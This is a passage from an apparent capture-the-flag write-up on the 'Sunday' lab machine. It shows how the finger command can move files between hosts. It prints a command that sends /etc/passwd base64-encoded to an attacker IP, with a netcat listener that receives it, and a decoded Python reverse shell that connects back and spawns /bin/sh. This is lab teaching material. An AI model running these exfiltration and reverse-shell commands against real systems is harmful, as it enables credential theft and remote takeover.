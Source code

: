 While working on this post, I was checking out
[gtfobins](https://gtfobins.github.io/), and their page on finger shows
how it can be used for file transfer. For example, to exfil the password
file from Sunday, with the listener started locally:



    root@sunday:~# finger "$(base64 /etc/passwd)"@10.10.14.5
    [10.10.14.5]





    root@kali# nc -lnvp 79 | base64 -d > passwd
    listening on [any] 79 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 54768

    root@kali# cat passwd
    root:x:0:0:Super-User:/root:/usr/bin/bash
    daemon:x:1:1::/:
    ...[snip]...



You can upload files to a target machine as well:



    root@kali# cat shell.py | base64 | nc -lp 79





    root@sunday:~# finger x@10.10.14.5 > shell.b64



The resulting file in this case had some IP info, separated with a
newline, but we can clean that up:



    root@sunday:~# cat  shell.b64
    [10.10.14.5]
    IyEvdXNyL2Jpbi9weXRob24KCmltcG9ydCBzb2NrZXQKaW1wb3J0IHN1YnByb2Nlc3MKaW1wb3J0IG9zCgpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm
    5lY3QoKCIxMC4xMC4xNC41Iiw0NDMpKQpvcy5kdXAyKHMuZmlsZW5vKCksMCkKb3MuZHVwMihzLmZpbGVubygpLDEpCm9zLmR1cDIocy5maWxlbm8oKSwyKQpwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2gi
    LCItaSJdKTsK

    root@sunday:~# cat  shell.b64 | head -2 | tail -1 | base64 -d
    #!/usr/bin/python

    import socket
    import subprocess
    import os

    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.5",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);

